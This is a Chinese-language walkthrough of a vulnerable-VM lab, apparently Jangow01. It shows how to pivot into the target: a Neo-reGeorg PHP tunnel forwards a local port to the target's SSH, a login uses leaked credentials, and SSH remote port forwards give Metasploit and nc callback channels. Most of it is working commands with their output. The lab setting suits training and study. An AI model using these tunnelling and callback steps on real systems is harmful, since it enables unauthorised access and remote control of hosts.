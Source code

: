 

使用 Neo-reGeorg 将本地 2222 端口转发到远程主机 22 端口。

```
neoreg -k 123 -u http://10.10.10.100/site/tunnel.php --php --read-interval 1 --write-interval 1 -l 0.0.0.0 -p 2222 -t 127.0.0.1:22

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting Forward [0.0.0.0:2222] => [127.0.0.1:22]
  Tunnel at:
    http://10.10.10.100/site/tunnel.php
+------------------------------------------------------------------------+
```



使用泄露的账号密码，通过 127.0.0.1:2222 进行 ssh 登录。

```
ssh jangow01@127.0.0.1 -p 2222

jangow01@127.0.0.1's password: 
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-31-generic x86_64)
...
jangow01@jangow01:~$ 
```



如果想要 msfconsole 接管系统，必须在远程端口转发，将靶机的流量转发到攻击机。

Neo-reGeorg 可以很好的进行本地端口转发，但不太适合进行远程端口转发，不过当前已经可以连接到靶机的 ssh 服务，可以使用 ssh 自带的远程端口转发。

```
ssh jangow01@127.0.0.1 -p 2222 -R 4444:127.0.0.1:4444 -R 5555:127.0.0.1:5555 -Nf
```



在靶机上执行 netstat -tunpl 命令，发现已经监听 4444 和 5555 端口。

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name	
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN       -               
tcp        0      0 127.0.0.1:4444          0.0.0.0:*               LISTEN       -               
```



在本机 nc -l -p 4444 监听端口，靶机连接 nc 127.0.0.1 4444 端口，数据转发成功。

```
jangow01@jangow01:~$ nc 127.0.0.1 4444
hello

root@localhost:~# nc -l -p 4444
hello
```

